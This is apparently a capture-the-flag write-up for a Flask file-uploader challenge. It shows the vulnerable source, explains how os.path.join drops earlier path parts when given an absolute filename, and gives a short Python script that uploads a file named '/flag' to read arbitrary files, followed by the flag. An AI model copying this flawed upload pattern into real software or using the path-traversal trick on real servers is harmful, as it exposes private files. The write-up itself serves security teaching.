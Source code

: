 # Secure Uploader
## Web

The app is a simple file uploader. A form can be used to upload a file (the name cannot contain `.`), it is assigned an ID, then saved to disk, with a redirect allowing them to access the file.

```python
from flask import Flask, request, redirect, g
import sqlite3
import os

app = Flask(__name__)

SCHEMA = """CREATE TABLE files (
id integer primary key autoincrement,
path text unique
);
insert into files (path) values ("testing");
"""

def db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect("database.db")
    return db


@app.before_first_request
def setup():
    os.remove("database.db")
    cur = db().cursor()
    cur.executescript(SCHEMA)

@app.route('/')
def hello_world():
    return """<!DOCTYPE html>
<html>
<body>
<form action="/upload" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="file">
    <input type="submit" value="Upload File" name="submit">
</form>

</body>
</html>"""


@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        return redirect('/')
    file = request.files['file']
    if "." in file.filename:
        return "Bad filename!", 403
    conn = db()
    cur = conn.cursor()
    try:
        cur.execute("insert into files (path) values (?)", (file.filename,))
    except sqlite3.IntegrityError:
        return "Duplicate file"
    conn.commit()
    file.save('uploads/' + file.filename)
    return redirect('/file/' + str(cur.lastrowid))

@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", id)
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return f.read()

app.run(host='0.0.0.0')
```

The bug resides in the usage of `os.path.join`. According to the Python docs, 

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

For instance, `os.path.join("/home", "user", "/.bashrc")` returns `/.bashrc`. Using this, we can simply upload a file named `/flag` by intercepting the upload with Burp. Navigating to the returned page will access `/flag`, the location of the flag, which will be returned.

```python
#!/usr/bin/python3.8
import requests

URL = "http://localhost:1337/"

r = requests.post(URL + "upload", files={"file": ("/flag", "aa")})
print(r.text)
```

`rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

